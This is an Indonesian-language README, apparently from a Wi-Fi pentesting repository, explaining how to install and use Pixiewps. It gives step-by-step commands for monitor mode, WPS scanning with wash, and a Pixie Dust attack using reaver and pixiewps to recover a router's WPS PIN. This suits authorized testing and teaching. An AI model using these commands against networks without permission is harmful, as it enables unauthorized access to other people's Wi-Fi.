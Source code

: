 # Pixiewps

![Pixiewps](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/pixiewps/img/pixiewps.jpg)

## Instalasi

Kali Linux:

1. Menggunakan packet manager (`apt`):

   ```
   sudo apt-get update
   sudo apt install pixiewps aircrack-ng reaver
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install build-essential libssl-dev git
   git clone https://github.com/wiire-a/pixiewps
   cd pixiewps
   make
   sudo make install
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

**1. Scan Wi-Fi WPS:**

```
sudo wash -i [interface]
```

**2. Pilih Taraget**

Pastikan status `Lck` (Lock) tidak menunjukkan `YES`. Jika `YES`, artinya fitur WPS sedang terkunci (tidak bisa diserang).

**3. Jalankan Serangan:**

1. Jalankan Reaver untuk mengumpulkan data WPS:

   ```
   sudo reaver -i [interface] -b [bssid] -c [channel] -K -vv
   ```
2. Jalankan Pixiewps dengan data yang didapat:

   ```
   sudo pixiewps -e [pke] -r [pkr] -s [e-hash1] -z [e-hash2] -a [authkey] -n [e-nonce]
   ```

   Keterangan:
   - `-e [pke]` : Enrollee Public Key -> len = 192
   - `-r [pkr]` : Registrar Public Key -> len = 192
   - `-s [e-hash1]` : Enrollee Hash1 -> len = 32
   - `-z [e-hash2]` : Enrollee Hash2 -> len = 32
   - `-a [authkey]` : Authentication Session Key -> len = 32
   - `-n [e-nonce]` : Enrollee Nonce -> len = 16

## Video Demonstrasi

[https://youtu.be/E1ERlb9HetY?si=5BftM5l4yPF3Ti0e](https://youtu.be/E1ERlb9HetY?si=5BftM5l4yPF3Ti0e)
